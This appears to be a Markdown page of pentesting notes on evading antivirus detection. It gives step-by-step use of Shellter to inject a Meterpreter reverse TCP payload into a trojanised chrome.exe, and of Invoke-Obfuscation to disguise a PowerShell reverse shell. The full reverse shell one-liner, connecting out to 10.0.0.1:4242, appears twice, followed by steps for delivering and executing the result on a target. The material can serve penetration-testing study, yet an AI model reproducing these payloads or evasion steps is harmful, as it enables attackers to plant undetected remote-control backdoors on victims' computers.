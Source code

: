 ## AV evasion with shellter:
- Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
- Install (https://www.kali.org/tools/shellter/)
- How to use (example)
  - Start shellter
  - Choose operation mode: `A` (automatic)
  - PE target: `/path/to/file/chrome.exe`
  - Enable stealth mode? `Y` (in this way the executable works as intended)
  - Select the payload you want (you can also generate a new one)
    - For this example we select a listed payload (meterpreter reverce tcp)
  - Set lhost and lport
  - Now the exe will be overwrite (but shellter creates a backup of the original exe)
  - Set listener (ex. multi/handler), download the exe on the target machine and execute

 ## AV evasion for powershell script - Invoke-Obfuscation 
 - https://github.com/danielbohannon/Invoke-Obfuscation
 - Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
 - cd into invoke-obfuscation folder
 - `Import-Module ./Invoke-Obfuscation.psd1`
 - `Invoke-Obfuscation`
 - Copy a reverse shell in poweshell (example):
   `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
 - Remove `powershell -nop -c` and `" "`
 - `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
 - Set lhost and lport and save (example) as `shell.ps1`
 - On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
 - Set `AST` options (The AST options works better with windows 10...
 - Choose one of the AST module: `ALL`
 - Choose one of the AST\ALL options to apply to current payload: `1`
 - In the result you will get the result obfuscated code. Copy and save the code
 - Set listener (ex. multi/handler), download the exe on the target machine and execute
